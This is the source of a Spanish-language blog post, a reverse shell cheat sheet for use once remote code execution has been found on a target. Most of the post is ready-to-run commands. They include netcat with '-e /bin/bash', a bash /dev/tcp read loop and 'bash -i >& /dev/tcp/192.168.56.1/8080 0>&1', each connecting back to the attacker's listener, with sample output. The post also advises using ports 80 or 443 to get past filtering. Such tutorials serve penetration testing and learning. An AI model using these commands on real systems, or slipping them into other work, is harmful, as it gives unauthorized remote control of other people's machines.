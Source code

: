 ```yaml
---
layout: post
title:  Reverse shells
excerpt: Reverse shell cheat sheet
image: '/img/terminal.png'
bigimg: '/img/reverse-shell.png'
tags: [netcat, security, shell]
---
```

Situación: encontrado un método de RCE pero sin posibilidad de acceso a la shell. Solución: _bind_ de la shell a un puerto TCP.

## netcat

Esto ya lo vimos hace tiempo en este [articulo]. Lo que ocurre es que:

* nc/netcat no siempre estará disponible
* si lo está, es posible que no tenga la opción `-e`

En ese caso, puedo ponerme a escuchar (en un puerto accesible al sistema de destino):

```shell
nc -l 8080
```

Y en destino:

```shell
nc 192.168.56.1 8080 -e /bin/bash
```
Ya podemos ejecutar comandos en el sistema remoto cómodamente sentados frente a nuestra máquina:

```shell
user@mihost:~$ nc -l 8080
hostname
vmjessie
```

La máquina objeto de la ejecución de la shell inicia una conexión hacia el puerto de escucha (8080 en el ejemplo). Por eso es necesario elegir un puerto accesible, no filtrado; una elección segura serían los puertos 80 o 443.

## bash

En este caso no vamos a usar `nc` en el equipo objetivo, sino un descriptor asociado a un socket donde vamos a enviar las salidas de la shell. Partimos de nuestro equipo (en el ejemplo, nuestra IP es 192.168.56.1), donde estamos escuchando (con `nc` o lo que sea, da igual) en un puerto accesible:

```shell
nc -vvv -l 8080
```

Y en el objetivo:

```shell
exec 5<>/dev/tcp/192.168.56.1/8080
cat <&5 | while read line; do $line 2>&5 >&5; done
```

Con esto, los comandos que tecleemos en nuestra máquina son ejecutados en la remota y la salida nos llega a nosotros:

```shell
user@192.168.56.1:~$ nc -vvv -l 8080  
hostname
target
```

Mediante esta otra sintaxis:

```shell
user@target:~$ bash -i >& /dev/tcp/192.168.56.1/8080 0>&1
```

tenemos igualmente la consola en nuestra máquina, prompt incluido:

```shell
user@192.168.56.1:~$ nc -vvv -l 8080  
user@target:~$ hostname
hostname
target
```

Si hay alguna razón para ejecutar la shell vía algún lenguaje de scripting (PHP, Perl, Python, Java, Ruby... ¡¡Gawk!!) [aquí] hay un montón de pruebas de concepto para entretenerse un rato.

[articulo]:/2015-06-08-netcat-primer
[aquí]:https://highon.coffee/blog/reverse-shell-cheat-sheet/
